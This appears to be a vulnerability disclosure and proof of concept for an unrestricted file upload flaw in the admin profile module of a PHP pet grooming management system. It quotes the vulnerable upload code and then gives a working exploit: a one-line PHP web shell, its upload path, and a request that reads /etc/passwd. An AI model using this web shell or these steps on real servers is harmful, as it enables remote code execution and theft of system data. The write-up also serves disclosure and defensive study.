# Proof of Concept – Unrestricted File Upload in Pet Grooming Management System (RCE)
### Summary

The Pet Grooming ERP application contains an Unrestricted File Upload vulnerability in the admin/profile.php module.
An authenticated attacker can upload arbitrary files, including PHP code, instead of restricted image files. This results in Remote Code Execution (RCE) on the hosting server.

*Product:* [Pet Grooming Management v.1](https://www.sourcecodester.com/php/18340/pet-grooming-management-software-download.html)

**Evidence:**
![](./evidence1.png)


### Root Cause
The application only applies client-side restrictions (accept="image/jpeg/png") and does not enforce proper server-side validation of uploaded files.
The following code demonstrates the weakness:

```php
$target_dir = "../assets/uploadImage/Profile/";
$website_logo = basename($_FILES["website_image"]["name"]);
$image = $target_dir . basename($_FILES["website_image"]["name"]);

if (move_uploaded_file($_FILES["website_image"]["tmp_name"], $image)) {
    @unlink("../assets/uploadImage/Profile/".$_POST['old_website_image']);
}
```


**❌ No server-side verification of extension, MIME type, or file content is performed.**

---

## Exploitation Proof of Concept
### Step 1 – Upload Payload

Submit the following file via the Profile Update form (website_image parameter):
```php
<?php
if (isset($_GET['cmd'])) {
    system($_GET['cmd']);
}
?>
```

### Step 2 – Locate File

The file is written to:
```php
/petgrooming_erp/pet_grooming/assets/uploadImage/Profile/shell.php
```

Accessible at:

```http://<host>/petgrooming_erp/pet_grooming/assets/uploadImage/Profile/shell.php```

### Step 3 – Remote Command Execution

Request the uploaded file with the cmd parameter:

```http://<host>/petgrooming_erp/pet_grooming/assets/uploadImage/Profile/shell.php?cmd=cat /etc/passwd```

### Example Output:

![](./evidence2.png)

